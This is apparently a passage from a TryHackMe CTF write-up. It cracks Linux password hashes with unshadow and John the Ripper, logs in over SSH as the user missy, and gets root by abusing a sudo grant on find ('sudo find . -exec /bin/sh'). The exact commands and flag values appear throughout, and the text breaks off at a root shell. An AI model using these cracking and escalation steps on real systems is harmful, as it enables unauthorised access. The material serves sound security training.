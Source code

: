 missy:x:1001:1001::/home/missy:/bin/bash
```
*  Used `unshadow` to create file crackable by John the Ripper.
```
unshadow /root/Desktop/Capstone/passwd.txt /root/Desktop/Capstone/shadow.txt > /root/Desktop/Capstone/passwords.txt
```
* Used John to brute force missy user password.
```
john --wordlist=/usr/share/wordlists/rockyou.txt /root/Desktop/Capstone/passwords.txt 
```
* Recovered "Password1" for missy user.
* Used SSH to connect to target as missy user.
```
ssh missy@10.10.91.89
```
* ```sudo -l
Matching Defaults entries for missy on ip-10-10-91-89:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-91-89:
    (ALL) NOPASSWD: /usr/bin/find
```
* ```history
    1  ls
    2  cd missy/
    3  ls
    4  cd Do
    5  cd Documents
    6  ls
    7  cat flag1.txt 
    8  su root
    9  quit
   10  sudo -l
   11  find . -exec /bin/sh \; -quit
   12  find -exec /bin/sh \; -quit
   13  sudo find /home -exec /bin/bash \;
   14  ls
   15  cd leonard/
   16  cd rootflag/
   17  su root
```
* Recovered flag1.
```
cat ./Documents/flag1.txt` 
THM-42828719920544
```
* `history` output of missy user suggests exploitation of `find` sudo delegation.
* [GTFObins](https://gtfobins.github.io/gtfobins/find/) confirms exploit.

> ## Sudo
> If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
> sudo find . -exec /bin/sh \; -quit

* Used exploit to elevate privileges to root.
```
find / -name rootflag 2>/bin/null
h-4.2# id